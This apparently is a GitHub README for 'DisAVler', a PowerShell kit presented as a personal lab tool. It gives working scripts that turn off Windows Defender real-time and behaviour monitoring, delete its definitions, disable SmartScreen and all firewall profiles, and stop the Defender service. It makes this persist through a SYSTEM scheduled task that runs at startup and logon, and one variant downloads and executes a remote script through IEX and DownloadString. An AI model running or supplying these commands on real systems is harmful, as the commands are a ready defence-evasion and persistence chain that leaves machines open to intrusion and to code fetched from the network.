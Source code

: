 🧑‍🎓 This **_naive_** repo is created for educational purposes only [_and only for me!_]

Why **_naive_** ? Because if **_App & browser control's Check apps and files_** function is enabled you won't go far! 🤷‍♂️ 

Why I created it? If you are in the same boat with me, _having a lab Windows VM that restarts WinDefend features every time on StartUp_, then you are at the right time, in the right place [probably] :)

Global connection NOT RECOMMENDED! ❌

# DisAVler
🚮 This is the repository that disables Windows Defender and its features on startup.

# AV Disabler [disAVler.txt]
## Offline
### Prepare the disablers [having DisAVler.txt on the host]:
Download the `disAVler.txt` file from repository into `C:\Windows\Tasks\`.

Or Execute this sh1t with PS [offline]:
```
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender Security Center\Notifications" -Name "DisableEnhancedNotifications" -Type DWord -Value 1;' > C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain,Private,Public -NotifyOnListen 0 -ErrorAction SilentlyContinue;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer" -Name "SmartScreenEnabled" -Value "Off" -Force;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1;' >> C:\Windows\Tasks\DisAVler.txt;
echo '$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Notifications\Settings\Windows.SystemToast.SecurityAndMaintenance"
$propertyName = "Enabled"
$desiredValue = 0
if (-not (Test-Path $regPath)) {
    New-Item -Path $regPath -Force | Out-Null
};' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path $regPath -Name $propertyName -Value $desiredValue -Force;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain,Private,Public -NotifyOnListen False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -UILockdown $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'cd "C:\Program Files\Windows Defender";' >> C:\Windows\Tasks\DisAVler.txt;
echo '.\MpCmdRun.exe -removedefinitions -all;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Remove-MpPreference;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableRealtimeMonitoring $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -SubmitSamplesConsent 2;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableArchiveScanning $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableEmailScanning $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableScriptScanning $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableIntrusionPreventionSystem $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableIOAVProtection $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableBehaviorMonitoring $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableBlockAtFirstSeen $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Public -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Private -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-NetFirewallProfile -Profile Domain -Enabled False;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -MAPSReporting 0;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -PUAProtection 0;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-MpPreference -DisableCloudProtection $true;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Stop-Service -Name WinDefend -Force;' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-Service -Name WinDefend -StartupType Disabled;' >> C:\Windows\Tasks\DisAVler.txt;
echo '$regPath = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer";' >> C:\Windows\Tasks\DisAVler.txt;
echo '$propertyName = "SmartScreenEnabled"; >> C:\Windows\Tasks\DisAVler.txt;' >> C:\Windows\Tasks\DisAVler.txt;
echo '$desiredValue = "Off";' >> C:\Windows\Tasks\DisAVler.txt;
echo 'if (-not (Test-Path $regPath)) {
    New-Item -Path $regPath -Force | Out-Null
};' >> C:\Windows\Tasks\DisAVler.txt;
echo 'Set-ItemProperty -Path $regPath -Name $propertyName -Value $desiredValue -Force;' >> C:\Windows\Tasks\DisAVler.txt;
```

### Setup Task Scheduler
Execute with PS for offline mode:
```
$Action = New-ScheduledTaskAction -Execute "powershell.exe" `
    -Argument '-Command "GET-Content -Raw C:\Windows\Tasks\DisAVler.txt | IEX"' `
    -WorkingDirectory "C:\Windows\System32"

$TriggerStartup = New-ScheduledTaskTrigger -AtStartup
$TriggerLogon   = New-ScheduledTaskTrigger -AtLogOn

$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest

$Settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -StartWhenAvailable

$Task = New-ScheduledTask -Action $Action -Trigger $TriggerStartup, $TriggerLogon -Principal $Principal -Settings $Settings

Register-ScheduledTask -TaskName "DisAVlerOnBoot" -InputObject $Task
```


## Online
Execute with PS for online [having DisAVler.txt on another host]. 

Change https://raw.githubusercontent.com/DRAGOWN/DisAVling/refs/heads/main/DisAVler-Out0.txt with your hosted file:
```
$Action = New-ScheduledTaskAction -Execute "powershell.exe" `
    -Argument '-Command "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/DRAGOWN/DisAVling/refs/heads/main/DisAVler-Out0.txt')"' `
    -WorkingDirectory "C:\Windows\System32"

$TriggerStartup = New-ScheduledTaskTrigger -AtStartup
$TriggerLogon   = New-ScheduledTaskTrigger -AtLogOn

$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest

$Settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -StartWhenAvailable

$Task = New-ScheduledTask -Action $Action -Trigger $TriggerStartup, $TriggerLogon -Principal $Principal -Settings $Settings

Register-ScheduledTask -TaskName "DisAVlerOnBoot" -InputObject $Task
```

# Restore configurations
```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/DRAGOWN/DisAVling/refs/heads/main/EnAVler.txt')"
```

### _Win or lose, blame yourself, if anything happens to you, because you are still alive_ 🫶🏻
<!-- [Giorgi Dograshvili]([url](https://www.linkedin.com/in/giorgi-dograshvili)) -->
